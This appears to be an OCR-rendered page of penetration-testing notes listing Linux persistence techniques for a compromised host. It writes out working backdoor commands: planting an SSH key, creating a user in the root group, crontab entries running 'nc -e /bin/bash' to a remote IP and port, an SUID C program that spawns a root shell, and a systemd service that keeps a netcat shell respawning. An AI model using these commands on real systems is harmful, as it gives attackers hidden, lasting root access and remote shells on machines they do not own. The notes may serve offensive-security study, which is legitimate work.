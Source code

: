             -   Add your public key to the user's \~/.ssh/authorized keys (create the directory and the file if it's not there, if the file exists just add a line with your key)

                -   write the content of \~/.ssh/id\_rsa.pub  into  \~/.ssh/authorized\_keys

            -   Ensure permissions

                -   chmod 700 \~/.ssh

                -   chmod 600 \~/.ssh/authorized\_keys

        -   **Add a user**

            -   useradd new

            -   passwd new

            -   usermod -aG root new  //add that user to root group

        -   **Add backdoor to crontab**

            -   Crontab --e

            -   \*/10 \* \* \* \* nc -e /bin/bash \[ip\] \[port\] -\> execute every 10 mins

            -   Or echo "\*/1 \* \* \* \* \[user\] nc -e /bin/bash 127.0.0.1 9000" \>\> /etc/crontab

        -   **make an suid binary**

            -   echo \'int main(void){setresuid(0, 0, 0);system(\"/bin/sh\");}\' \> /tmp/suid.c

            -   gcc -o /tmp/suid /tmp/suid.c

            -   sudo chmod +x /tmp/suid \# execute right

            -   sudo chmod u+s /tmp/suid \# setuid bit

        -   **make a service**

            -   Create a service

                -   sudo nano /etc/systemd/system/service\_name.service

                -   sudo nano \~/.config/systemd/user/name.service -\> doesn't require root access

            -   Service script

                -   Description=GIVE\_YOUR\_SERVICE\_A\_DESCRIPTION

                -   

                -   \[Service\]

                -   Type=simple

                -   ExecStart=/usr/bin/nc 127.0.0.1 8000 -e /bin/bash

                -   Restart=on-failure

                -   RestartSec=10

                -   KillMode=process

                -   
